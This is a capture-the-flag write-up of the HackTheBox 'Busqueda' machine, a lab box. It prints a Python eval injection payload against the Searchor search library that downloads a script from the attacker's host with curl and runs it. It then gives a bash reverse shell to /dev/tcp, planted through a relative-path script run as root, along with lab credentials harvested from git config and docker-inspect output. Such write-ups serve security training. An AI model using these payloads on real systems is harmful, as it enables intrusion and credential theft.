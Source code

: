 ```yaml
---
layout:     post
title:      "HackTheBox - Busqueda"
subtitle:   "Write-Up"
date:       2023-08-12
author:     "D4mianwayne"
tags:    ["bash, easy, eval, python-code-injection, relative-path-exploit"]
categories: ["HackTheBox"]
layout: "simple"

---
```




Writeup for HackTheBox Busqueda Machine

<!-- more -->

Starting off with the `nmap` scan, we see that it has HTTP and SSH, as expected. 

```python
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp   open  http        Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
8080/tcp open  http-proxy?
```

Now, moving on with the `searcher.htb` , it seems to provide a search service where you can use different search engines

![](/img/Busqueda_cc54d792287342bd91f5e124e3d86184/Untitled.png)

From further enumeration, we identified that the application is built on top of https://github.com/ArjunSharda/Searchor which we got from the footer of the page.  The version number mentioned on the page was 2.4.0 and the latest was 2.5.2. To check for the specific version, from the commit changes I noticed there was an `eval` function which was called with the given values for the `query` and `engine` 

![](/img/Busqueda_cc54d792287342bd91f5e124e3d86184/Untitled_1.png)

Above code is something of interest, what we can do here is exploit that `eval` to use python functions like `compile` (this is used to evaluate the python code as expressions and execute the code) , this can be done by doing something like `' <python code>`

```python
query=test'+eval(compile('for x in range(1):\n import os\n os.system("curl 10.10.14.22/shell.sh -o /tmp/shell.sh")','a','single'))+'
```

Now, this will execute the payload such that it will call `eval` again which will evaluate the code `compile` executing the code, here we downloading a bash script which will later gets executed with `os.system` 

```jsx
POST /search HTTP/1.1
Host: searcher.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 157
Origin: http://searcher.htb
Connection: close
Referer: http://searcher.htb/
Upgrade-Insecure-Requests: 1

engine=Accuweather&query=test'%2beval(compile('for+x+in+range(1)%3a\n+import+os\n+os.system("curl+10.10.14.22/shell.sh+-o+/tmp/shell.sh")','a','single'))%2b'
```

Now, following will just execute the previously downloaded bash script:

```jsx
POST /search HTTP/1.1
Host: searcher.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 133
Origin: http://searcher.htb
Connection: close
Referer: http://searcher.htb/
Upgrade-Insecure-Requests: 1

engine=Accuweather&query=test'%2beval(compile('for+x+in+range(1)%3a\n+import+os\n+os.system("bash+/tmp/shell.sh")','a','single'))%2b'
```

Doing so, we got the reverse shell as `svc` user:

![](/img/Busqueda_cc54d792287342bd91f5e124e3d86184/Untitled_2.png)

In the same directory, there was a `.git` folder which had the `config` file which had the password for the `cody` user:

```jsx
bash-5.1$ cat .git/config
cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

The `svc` user had `user.txt` which we can get:

```jsx
bash-5.1$ cd ~/
cd ~/
bash-5.1$ pwd
pwd
/home/svc
bash-5.1$ ls -la
ls -la
total 44
drwxr-x--- 6 svc  svc  4096 Apr 22 16:42 .
drwxr-xr-x 3 root root 4096 Dec 22 18:56 ..
lrwxrwxrwx 1 root root    9 Feb 20 12:08 .bash_history -> /dev/null
-rw-r--r-- 1 svc  svc   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 svc  svc  3771 Jan  6  2022 .bashrc
drwx------ 2 svc  svc  4096 Feb 28 11:37 .cache
-rw-rw-r-- 1 svc  svc    76 Apr  3 08:58 .gitconfig
drwx------ 3 svc  svc  4096 Apr 22 16:42 .gnupg
drwxrwxr-x 5 svc  svc  4096 Jun 15  2022 .local
lrwxrwxrwx 1 root root    9 Apr  3 08:58 .mysql_history -> /dev/null
-rw-r--r-- 1 svc  svc   807 Jan  6  2022 .profile
lrwxrwxrwx 1 root root    9 Feb 20 14:08 .searchor-history.json -> /dev/null
drwx------ 3 svc  svc  4096 Apr 22 16:41 snap
-rw-r----- 1 root svc    33 Apr 22 12:28 user.txt
bash-5.1$ cat user.txt
cat user.txt
ef72983276d36e5283938e4b72f9898d
```

Now, using the `cody` user’s password for performing `sudo -l` on the machine, we see that

```jsx
bash-5.1$ sudo -l
sudo -l
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

It seems we can see the `[system-checkup.py](http://system-checkup.py)` as `root` user, although we did not have any permissions to read the file./

- If you request a field which is itself a structure containing other fields, by default you get a Go-style dump of the inner values. Docker adds a template function, `json` , which can be applied to get results in JSON format.

Normally, it provided 3 functionalities, 2 for docker related commands and one for system check 

```jsx
bash-5.1$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
<er-inspect --format='{{json .Config}}' 960873171e2e
--format={"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}

bash-5.1$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' f84a6b33fb5a
<er-inspect --format='{{json .Config}}' f84a6b33fb5a
--format={"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Entrypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"}}
```

Although from the `docker-ps` and `docker-inspect` , we got the information about the running containers, in which there was plaintext password for the database users, trying the same passwords on the `gitea.searcher.htb` for `administrator` user

```jsx
administrator:yuiu1hoiu4i5ho1uh
```

Now, we can successfully login to the application as `administrator` user and a see a repository called `scripts` 

![](/img/Busqueda_cc54d792287342bd91f5e124e3d86184/Untitled_3.png)

Upon checking the repository, it contained the `[system-checkup.py](http://system-checkup.py)` python file which we can analyse to see anything interesting of any sort, what we can see here is, it is using the `subprocess` to run commands, there was an interesting part in the code which was executing the `[full-checkup.sh](http://full-checkup.sh)` from the current directory instead of using absolute path for the script, this can be used in our advantage to create a `full-checkup.sh` in our directory and then run the `system-checkup.py` as `root` user which will execute the custom created `full-checkup.sh` script:

![](/img/Busqueda_cc54d792287342bd91f5e124e3d86184/Untitled_4.png)

Creating the `[full-checkup.sh](http://full-checkup.sh)` with the reverse shell code and giving it the execute permission:

```jsx
full-checkup.sh

#!/bin/bash
bash -i >& /dev/tcp/10.10.14.22/443 0>&1
```

Now, just execute the command and we got the reverse shell as root:

![](/img/Busqueda_cc54d792287342bd91f5e124e3d86184/Untitled_5.png)


